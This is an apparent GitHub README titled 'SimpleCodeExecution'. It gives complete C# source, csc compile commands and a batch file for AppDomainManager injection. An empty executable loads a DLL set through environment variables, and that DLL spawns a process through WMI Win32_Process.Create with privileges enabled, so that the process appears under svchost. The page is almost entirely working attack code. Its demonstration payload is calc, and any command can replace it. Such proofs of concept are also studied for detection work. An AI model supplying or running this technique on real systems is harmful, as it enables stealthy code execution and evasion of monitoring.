 # SimpleCodeExecution
Execute tasks.dll with minimum of code, run.exe, tasks.dll and run.bat in same folder, calc is started under scvhost.

compile: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /platform:anycpu /target:exe /unsafe run.cs

run.exe:

```
using System;

public class MyProgram
{
    public static void Main(string[] args)
    {
    }
}

```

compile: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /platform:anycpu /target:library /unsafe tasks.cs

tasks.dll:
```
using System;
using System.Management;

public sealed class WMI : AppDomainManager
{
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
        WMIexec.Run("calc");
        return;
    }

}

public class WMIexec
{
	public static void Run(string cmd)
	{
			var cmdToRun = new[] { cmd };
			var connection = new ConnectionOptions();
			connection.Impersonation = ImpersonationLevel.Impersonate;
			connection.EnablePrivileges = true;
			var wmiScope = new ManagementScope(String.Format("\\\\{0}\\root\\cimv2", "localhost"), connection);
			var wmiProcess = new ManagementClass(wmiScope, new ManagementPath("Win32_Process"), new ObjectGetOptions());
			object result = wmiProcess.InvokeMethod("Create", cmdToRun);
	}
}

```

run.bat:

```
set APPDOMAIN_MANAGER_ASM=tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null
set APPDOMAIN_MANAGER_TYPE=WMI
set COMPLUS_Version=v4.0.30319
run.exe

```
